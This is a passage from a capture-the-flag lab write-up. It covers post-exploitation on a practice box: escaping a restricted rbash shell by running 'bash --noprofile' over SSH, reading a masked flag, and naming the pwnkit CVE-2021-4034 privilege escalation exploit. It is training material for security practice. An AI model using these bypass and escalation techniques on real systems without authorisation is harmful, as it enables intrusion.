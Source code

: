 > And we are logged in!
{: .prompt-info }

---

# post exploitation
## bypassing `rbash`

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cd ..
-rbash: cd: restricted
```

> Unfortunately we are in a restricted `bash` shell.
{: .prompt-danger }

```bash
$ ssh 296640a3b825115a47b68fc44501c828@192.168.183.85 "bash --noprofile"                                                                                                127 ⨯
296640a3b825115a47b68fc44501c828@192.168.183.85's password: 
id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
cd ..
pwd
/home
```

> We can bypass this resrtriction executing bash without a profile while logging in via `ssh`
{: .prompt-info }

## getting first flag
```bash
pwd
/home/296640a3b825115a47b68fc44501c828
ls
honeypot.decoy
honeypot.decoy.cpp
id
ifconfig
local.txt
ls
mkdir
user.txt
cat local.txt
b******************************8
```

## privilege escalation

The box is vulnerable to the (`pwnkit`)[https://github.com/arthepsy/CVE-2021-4034] vulnerabillity.  
  